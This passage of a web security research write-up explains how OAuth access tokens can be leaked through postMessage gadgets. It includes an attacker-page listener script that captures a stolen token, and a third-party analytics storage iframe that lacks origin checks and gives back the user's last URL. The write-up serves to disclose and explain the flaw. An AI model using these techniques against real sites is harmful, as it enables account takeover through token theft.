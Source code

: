     ```html
    <script>
    window.addEventListener('message', function (e) {
     if (e.data) {
         document.getElementById('leak').innerText = 'We stole the token: ' + JSON.stringify(e.data);
     }
    });
    </script>
    ```

## Gadget 3: Using APIs to fetch URL out-of-bounds

![](https://labs.detectify.com/wp-content/uploads/2022/06/Gadget-3--1024x582.png)

&#x20;

This gadget turned out to be the most fun. There’s something satisfying about sending the victim somewhere and then picking up sensitive data from a different location.

## **Gadget 3: example 1, storage-iframe with no origin check**

The first example used an external service for tracking-data. This service added a “storage iframe”:

```html
<iframe
  id="tracking"
  name="tracking"
  src="https://cdn.customer1234.analytics.example.com/storage.html">
</iframe>
```

The main window would talk with this iframe using postMessage to send tracking-data that would be saved in the localStorage of the origin the `storage.html` was located in:

```javascript
tracking.postMessage('{"type": "put", "key": "key-to-save", "value": "saved-data"}', '*');
```

The main window could also fetch this content:

```javascript
tracking.postMessage('{"type": "get", "key": "key-to-save"}', '*');
```

![](https://labs.detectify.com/wp-content/uploads/2022/06/gadget3-example1.png)

When the iframe was loaded on initialization, a key was saved for the last location of the user using `location.href`:

```javascript
tracking.postMessage('{"type": "put", "key": "last-url", "value": "https://example.com/?code=test#access_token=test"}', '*');
```
